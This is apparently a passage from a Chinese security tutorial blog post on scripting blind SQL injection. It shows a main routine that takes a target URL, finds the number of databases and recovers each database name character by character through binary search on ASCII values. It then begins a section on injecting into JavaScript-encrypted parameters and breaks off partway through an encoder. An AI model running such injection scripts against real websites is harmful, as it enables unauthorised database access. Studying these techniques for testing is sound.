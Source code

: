 这个方法是写在MYSQLAttack.wker中的，这里我们通过二分法得到ASCII的值之后，我们就是用`AsciiToChar`函数得到对应的值。

二分法最后猜出来的数值就是某个字符的ASCII码。

这个方法多了StringIndex参数，主要是用来定位猜解第几个字符。

### 主逻辑

```js
#include ATTACKUTILS/MYSQLAttack.wker
function main(args)
{
	print("请输入您要测试的URL(不要带参数的值):");
	url =input();
	print("请输入参数的默认值:");
	par = input();
	length = GetRealLength(url.par);
	DataBaseNum = GetDataBaseNum(url,length,par);
	i = 0;
	while(i<DataBaseNum){
		DataBaseLength =GetDataBaseLength(url,length,i,par);
		j = 0;
		DataBaseName= "";
		while(j <DataBaseLength){
			DataBaseName = DataBaseName.GetDataBaseStr(url,length,i,ToInt(j+1),par);
			j=ToInt(j+1);
		}
		i = ToInt(i+1);
		print(DataBaseName);
	}
}
```

首先我们先导入MYSQLAttack.wker。

然后让用户输入注入的URL以及默认参数值。

然后获取正常页面的长度，然后获取数据库的个数，进入while循环，遍历每一个数据库

先获取数据库名称的长度，然后遍历每一个字符的值，最终打印处数据库的名称。

我们来看一下最后的执行结果：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210308140332819.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4MzkwNTYx,size_16,color_FFFFFF,t_70#pic_center)

可以看到我们最终跑出了所有的数据库名称。

### 存在js加密的注入

在我们传递payload的过程中经常能碰到存在参数加密的事情，首先我们要对参数加上payload进行加密，那么我们就要找出加密的方法：

找js加密不是我们这里要讲的，所以这里我就给大家找出了js的加密算法：

```js
function enc() {  
   
    // private property  
    _keyStr = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";  
   
    // public method for encoding  
    this.encode = function (input) {  
        var output = "";  
        var chr1, chr2, chr3, enc1, enc2, enc3, enc4;  
        var i = 0;  
        input = _utf8_encode(input);  
        while (i < input.length) {  
            chr1 = input.charCodeAt(i++);  
            chr2 = input.charCodeAt(i++);  
            chr3 = input.charCodeAt(i++);  
```